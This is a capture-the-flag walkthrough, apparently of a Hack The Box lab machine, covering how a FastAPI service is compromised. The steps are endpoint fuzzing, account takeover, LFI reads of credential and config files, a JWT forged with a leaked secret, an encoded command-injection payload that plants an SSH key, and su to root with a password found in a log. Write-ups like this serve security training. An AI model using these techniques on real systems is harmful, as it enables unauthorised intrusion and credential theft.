 > LFI, command execution

# Ports

* **80** : uvicorn 
* **22** : openssh 8.2p1 ubuntu
### Port 80,22 is used for exploiting

# 80
### 1. Fuzzing Endpoints
1. Navigating to webpage shows us that this is an api endpoint that has no frontend as the reponse "Not Authorized" was displayed in json.
2. From the headers we can see look into uvicorn and we can see that fastapi is used in the server.
3. Using ffuf with dirbuster-2.3-medium wordlist gave us `docs`,`api` endpoints.
4. doc endpoint requires authorization.  api endpoint tells us about another endpoint `v1`
5. Navigating to `http://10.10.11.161/api/v1` tells us about two more endpoints `user` and `admin`
6. Navigating to `http://10.10.11.161/api/v1/admin/` gives us unauthorized message.
7. Navigating to `http://10.10.11.161/api/v1/user/1` gives us information about the admin including email address.
8. Simply trying a post request user and admin endpoints gives us a 422 result for `user/login` and gives us a hint about providing username.
9. `ffuf -u http://10.10.11.161/api/v1/user/FUZZ -w /usr/share/wordlist/Kalilist/dirb/common.txt -fc 405 -mc 422`
This gives us two endpoints signup and login

### 2. Sending Payloads
1. After capturing the request to `user/signup` in burpsuite we set the "Content-type: application/json" header and data as `{"email": "srr@htb.local", "password":"admin"}`
2. This gives a 201 saying created.
3. After that we login with `user/login` by setting header "Content-Type: application/x-www-form-urlencoded" and data as `username=srr@htb.local&password=admin`
4. This gives us a jwt token, which we can use it authenticate by using the http 'Authentication' header.

### 3. Authenticating
1. FastApi provides a UI for testing out various endpoints which is developed using swagger UI. This is in the `http://10.10.11.161/docs` path.
2. We capture the request to this route and add our `Authorization: Bearer <JWT token>`  header to the request  and forward it.
3. The page also makes request to openapi.json and we need to do the same to this request to successfully login to the web interface.

# 22
1. SSH port


# EXPLOITATION
We can use the `/api/v1/user/updatepass` endpoint to update the admin user's password. It only requires "guid" and new password. We can do it in the UI
We can switch to the admin account using the "Authorize" button on the top right corner in the UI.
As admin we can use endpoints `/admin/file` and `/admin/exec` . File requires a filename we can specify "file: /etc/passwd" and we can observe that LFI exists in this application.
`/admin/exec/whoami` does not work as it tells that debug key is not set for the JWT token

### Hampering JWT token
[jwt.io](http://jwt.io) provides a way to decrypt jwt token to see its keys. We can obtain our jwt token from the header of our requests to `admin/file` endpoint.
Using [jwt.io](http://jwt.io) we can decrypt the token to add "debug": true. But we need a signature to complete this.

We can use the /file endpoint to try to get the source code of the api to get the signature.
In /file endpoint
- "file": "/proc/self/cmdline" tells us that the source code files resides in /home/htb/uhc
- "file": "/proc/self/environ" tells us that the source code is in main.py at /home/htb/uhc/app
- "file":"/home/htb/uhc/app/main.py" gives us the source code of the api. We can look into the code and see that a 'settings' class was imported from app.core.config. This is a configuration file and this file could contain signature we need.
- "file":"/home/htb/uhc/app/core/config.py" , gives us the secret key as "SuperSecretSigninKey-HTB"

We can use this key to create our JWT token with "debug" key set to true at [jwt.io](https://jwt.io).

### Code execution.
We can use our custom JWT along with the /exec endpoint to execute commands.
1. Since we have SSH port open, we can add our public key to the machine's `authorized_keys` file so we can ssh using our private key.
2. Forward slashes (/) are creating problems in the endpoint, so we need to encode our payload and then decrypt back in the machine to execute it.
3. The payload need to be urlencoded before sending via the endpoint.

### Adding to authorized keys.

- `mkdir /home/htb/.ssh`  ==> $(echo bWtkaXIgL2hvbWUvaHRiLy5zc2g= | base64 -d) ==> urlencode the command
`http://10.10.11.161/admin/exec/%24%28echo%20bWtkaXIgL2hvbWUvaHRiLy5zc2g%3D%20%7C%20base64%20-d%29`

- `echo <YOUR SSH PUBLIC KEY> > /home/htb/.ssh/authorized_keys` 
This command need to be encrypted to two parts to get it to work.
1. `echo <YOUR SSH PUBLIC KEY>`  ==> base64 the command ==> $(echo /<base64 value/> | base64 -d)
2. `/home/htb/.ssh/authorized_keys`  ==> base64 the command ==> $(echo /<base64 value/> | base64 -d)
3. Then combining both parts:
$(echo /<base64 of first command/> | base64 -d) > $(echo /<base64 of second command/> | base64 -d)
4. This final command is urlencoded and send through the endpoint.

We can now ssh in `ssh htb@10.10.11.161`

# Actions in the low privilege shell

1. We can look inside the uhc folder in the home directory of htb user.
2. Inside `uhc` we can see `auth.log` file which tells us about authentication attempts to the api.
3. Inside auth.log we see an authentication attempt for `Tr0ub4dor&3`, this could be a password for the htb account or even the root
4. `sudo -l` to check the sudo previleges of htb. We find that the password didn't work for htb
5. `su root` with the password gave us root.

We are now root.